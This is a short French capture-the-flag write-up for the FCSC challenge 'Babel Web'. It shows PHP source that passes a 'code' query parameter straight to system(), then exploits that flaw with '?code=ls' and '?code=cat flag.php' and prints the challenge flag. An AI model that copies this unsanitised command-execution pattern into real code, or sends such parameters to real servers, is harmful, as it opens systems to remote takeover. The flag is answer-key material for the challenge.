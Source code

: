 # Babel Web
En inspectant le code HTML on voit un lien vers `?source=1`. En allant sur la page on obtient ce code :

```php
<?php
    if (isset($_GET['source'])) {
        @show_source(__FILE__);
    }  else if(isset($_GET['code'])) {
        print("<pre>");
        @system($_GET['code']);
        print("<pre>");
    } else {
?>
<html>
    <head>
        <title>Bienvenue à Babel Web!</title>
    </head>    
    <body>
        <h1>Bienvenue à Babel Web!</h1>
        La page est en cours de développement, merci de revenir plus tard.
        <!-- <a href="?source=1">source</a> -->
    </body>
</html>
<?php
    }
?>
```

On voit clairement qu'en passant un paramètre code, celui-ci est interprété dans le terminal. On fait donc `?code=ls` pour lister les fichiers puis `?code=cat flag.php` puis en inspectant la page on obtient le flag.

Flag : `FCSC{5d969396bb5592634b31d4f0846d945e4befbb8c470b055ef35c0ac090b9b8b7}`